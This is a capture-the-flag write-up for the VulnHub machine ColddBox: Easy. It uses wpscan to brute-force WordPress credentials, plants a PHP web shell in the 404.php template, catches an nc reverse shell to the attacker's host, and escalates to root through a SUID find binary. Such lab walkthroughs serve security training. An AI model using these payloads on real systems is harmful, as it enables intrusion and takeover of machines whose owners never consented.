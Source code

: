 # ColddBox: Easy

https://www.vulnhub.com/entry/colddbox-easy,586/

Just a warmup, as its been a while. Actually spent most of my time working on a new setup, using kali via WSL2. The biggest issue was catching a reverse shell, which because of how WSL2 works, seems to not be possible for now. Instead I used ncat for windows, via the nmap repo: https://nmap.org/download.html, but then had to fight a war with my own firewall to get it to catch something. Anyway!

1. Found the host only virtual box hosted vm via `nmap -sP 192.168.154.0/24` - that IP range being what I have configured for virtual box.
2. A scan of the machine revealed `80`, and a random port that turned out to be SSH.
3. On port `80` was a wordpress site. I ran `wp-scan` and got a list of users via `-e u`
4. Feeding these users and `rockyou.txt` back into `wp-scan` (`-U <list of users> -P <path to rockyou>`) I got a password within 0.16% of rockyou for the user `c0ldd`
5. Via this user/password, I logged into the admin portal and customised the `404.php` template with a one liner web shell: `<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`
  - with this, accessing `?p=1337&e=ls` would list files, so I had rce. I found there was `/hidden` path this way, but it didn't matter by this point.
  - the user was `www-data`, as usual. while messing with my reverse shell shenanigans, I also established step 7 at this point.
6. Starting up `ncat.exe -nvlp 1337` on my windows machine, I caught a reverse shell via `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.154.1 1337 >/tmp/f`
7. A `find / -perm -u=s 2>/dev/null` revealed `/usr/bin/find` under the suid list.
8. Running `/usr/bin/find . -exec /bin/sh -p \; -quit` got me a root shell.
9. There was a user flag, and root flag, both readable at this point (Er, but in spanish or something similar, after base64 decoding :)

And that's all she wrote!
